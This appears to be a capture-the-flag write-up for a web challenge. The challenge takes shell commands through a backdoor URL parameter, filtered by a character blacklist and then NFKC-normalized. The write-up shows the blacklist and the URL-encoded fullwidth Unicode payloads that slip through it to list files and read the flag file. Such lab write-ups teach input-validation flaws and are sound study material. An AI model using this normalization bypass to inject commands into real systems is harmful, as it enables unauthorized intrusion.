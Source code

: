 ## Solve:

- [ ] Set of blacklisted characters (not allowed) <br/>
  <sup>```blacklist = ["~","!","@","#","$","%","^","&","*","(",")","_","-","+","{","}","]","[","|","\\","|",";",",",".","<",">","?","/","`",":","\""]```</sup>

<br/>

- [ ] If the characters introduced are not in the blacklist, the command given is **normalized** <br/>
  ```norm = unicodedata.normalize("NFKC", cmd)```

<br/>

- [ ] We can request regular commands, but in order to get the flag we need to bypass the blacklist. <br/>
    We do this by using special characters in **Unicode** that are the equivalent of normal characters after **normalization**. <br/>
    We see some examples here: https://lazarv.com/posts/unicode-normalization-vulnerabilities/

<br/>

- [ ] After a series of commands, we find out where is the flag
  ```bash
  http://206.189.59.199:8004/backdoor?cmd=ls 
  http://206.189.59.199:8004/backdoor?cmd=cat%20%EF%B9%A1
  ```
  ![asterix](https://user-images.githubusercontent.com/93029180/208316737-a87ab1f1-678d-47ba-b01b-557a2ca9a6e6.png)
  
  Hint says the flag is temporary (in `tmp` directory)
  ```bash
  http://206.189.59.199:8004/backdoor?cmd=cat%20%EF%B9%A1
  http://206.189.59.199:8004/backdoor?cmd=cat%20%EF%BC%8Ftmp%EF%BC%8Fflag%EF%B9%A1
  ```
  ![flag](https://user-images.githubusercontent.com/93029180/208316828-d7dce247-f3f2-4a5e-a48e-2d30d207acb9.png)

<br/>

## Flag:
`flag{normalizing_the_input_4_the_bypass}`
